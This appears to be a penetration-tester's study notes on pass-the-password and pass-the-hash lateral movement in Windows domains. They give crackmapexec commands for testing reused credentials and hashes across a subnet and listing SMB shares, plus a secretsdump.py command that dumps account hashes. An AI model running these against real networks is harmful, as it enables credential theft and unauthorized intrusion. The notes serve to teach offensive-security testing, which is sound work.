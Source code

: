 
# Pass attacks (pass password or hash)

If we crack a password or we can dump the SAM hashes we can leverage on them to perform lateral movements in the networks.

**==Basically we have a password of an user and we want to move on the domain, maybe to performm a privilege escalation.==**

**==If the compromised user has access to different resources or hosts we use the password to access to them.==**
## crackmapexec
With the tool `crackmapexec` we can see if it is possible to move laterally on the network with the retrieved password.

**==It checks if the password we have can be used on other hosts or resources in the domain.==**

We can run it in this way:
```bash
crackmapexec smb AD_NETWORK (10.0.0.0/24) -u username_we_have -d DOMAIN_AD -p password_we_have
```

*For example:*
- ![[Pasted image 20241218150113.png]]
- we can have access on 2 machines here with a single username and password

# Pass the hash
==**In this case we have or we retrieve the NTLM hashes but we cannot crack them.**==

**==The idea is to use the hash to authenticate ourself without the password.==**

**==This works because Windows uss the NTLM hash to authenticate the users also without the password. ==


We can retrieve some hashes with the tool `secretdump.py`
We can run:
```bash
secretsdump.py DOMAIN/username:PASSWORD@HOST_IP
```
- ![[Pasted image 20241218150325.png]]


However we can use directly the hash if we cannot crack it:
```bash 
crackmapexec smb AD_NETWORK (10.0.0.0/24) -u username_we_have -d DOMAIN_AD -H hash_value --local-auth
```
- ![[Pasted image 20241218150643.png]]

## enumeration and shares (SMB shares)
**==Once we get the credentials hashes we can explore the resources on the network.==**

To get all informations about the shares we can do:
```bash
crackmapexec smb AD_NETWORK (10.0.0.0/24) -u username_we_have -d DOMAIN_AD -H hash_value --local-auth --shares
```
- ![[Pasted image 20241218151253.png]]
